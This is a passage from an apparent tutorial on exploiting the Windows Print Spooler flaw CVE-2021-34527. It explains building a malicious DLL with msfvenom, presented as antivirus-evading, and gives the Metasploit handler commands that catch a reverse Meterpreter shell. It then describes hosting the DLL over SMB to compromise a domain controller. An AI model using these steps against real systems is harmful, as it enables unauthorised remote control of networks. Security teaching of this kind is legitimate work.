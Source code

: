 
1. **Installing specific version impacket:** Impacket is a set of Python classes designed to interact with network protocols. It emphasizes granting developers access to packets at a low level, along with offering protocol implementations for certain protocols such as SMB1-3 and MSRPC. We have to install specific version of impacket to make it compatible with our environment so we have to install it manually by clonning it from  
    **<https://github.com/cube0x0/impacket>**

## Exploitation

To exploit this vulnerability, the chosen delivery method is a malicious DLL. This approach, often termed as "File-less" exploitation, allows bypassing various system protections including antivirus software. The attack involves manipulating the print spooler service to install a new driver from a UNC path and subsequently loading the driver, which in this scenario is the malicious DLL. This action enables the attacker to establish a reverse shell to their machine, facilitating unauthorized access to the compromised system.

To craft the malicious DLL, I will utilize 'msfvenom'. Given our system architecture is Windows 64-bit, I'll integrate a Windows x64 payload into the DLL. This payload will include specifications for the LocalHost and LocalPort, which will be used to initiate a listener for receiving a callback from the DLL.

We have to start our Listener on the “Metasploit Framework” to get the ‘Meterpreter’ shell back when the DLL is executed on the system. To start the Listener follow the below steps.

Here are the details of each command to start the Listener on the Metasploit Framework:

1. **use exploit/multi/handler:** This command instructs Metasploit to utilize the specified exploit module, which is 'multi/handler'. The 'multi/handler' module is designed to handle connections from multiple types of payloads.


1. **set payload windows/x64/meterpreter/reverse_tcp**: This command sets the payload to be used by the handler. In this case, the payload is 'windows/x64/meterpreter/reverse_tcp', which indicates that a Meterpreter shell will be generated for Windows 64-bit systems and will establish a reverse TCP connection back to the attacker's machine.


1. **set LHOST eth0:** This command sets the Local Host (LHOST) parameter to specify the IP address of the network interface on the attacker's machine where the reverse shell connection will be received.


1. **\`run\`:** This command executes the listener with the specified settings. Once executed, the listener will be active and waiting for the reverse TCP connection from the malicious DLL. When the DLL is executed on the target system, it will attempt to establish a connection back to the specified IP address and port, allowing the attacker to gain a Meterpreter shell on the compromised system.


With the listener initiated, the next step is to set up an SMB server to host our malicious DLL file. Navigate to the directory where the DLL is stored and execute the following command to launch the SMB server:


Wow we have already set up everything you could start the exploitation process using the CVE-2021–34527 POC by providing the domain controller and user credentials with the UNC path for the hosted malicious DLL on our system.
